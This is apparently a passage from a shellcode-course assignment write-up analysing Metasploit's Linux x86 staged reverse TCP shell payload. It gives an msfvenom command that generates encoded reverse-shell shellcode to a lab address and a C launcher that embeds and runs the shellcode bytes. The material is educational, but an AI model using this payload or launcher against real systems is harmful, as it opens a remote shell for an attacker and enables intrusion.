 ````
LPORT  4444             yes       The listen port

Description:
  Spawn a command shell (staged). Connect back to the attacker
````
``Basic options for linux/x86/shell/reverse_nonx_tcp``

The following command will generate the shellcode on C format: **msfvenom -p linux/x86/shell/reverse_nonx_tcp LHOST=10.0.2.15 LPORT=9999 --platform Linux -a x86 -f c -b '\x00'**. For this shellcode to work correctly it is necessary to use an encoder to avoid *NULL* bytes on the payload.

![](../Images/21_slae_assignment_5.png)

``Shellcode generated using x86/shikata_ga_nai encoder``

This can be inserted in a *shellcode launcher* to debug the execution properly.

````
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xbe\x55\x64\x92\x92\xd9\xc2\xd9\x74\x24\xf4\x58\x2b\xc9\xb1"
"\x0d\x83\xe8\xfc\x31\x70\x10\x03\x70\x10\xb7\x91\xa3\x49\x64"
"\x19\x97\x07\x88\xf7\x71\x80\x05\xe6\xb3\xb0\x82\xb2\x23\xbb"
"\xac\x46\xbb\xdd\xc4\x61\xcc\x47\x47\xe7\x33\xed\x01\xaf\xe3"
"\xa3\x9a\xc6\xe5\x07\xe9\x59\xbe\x1e\x47\x55\xf1\x22\x6a\xe6"
"\x0e\xc5";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
````
``shellcode.c``
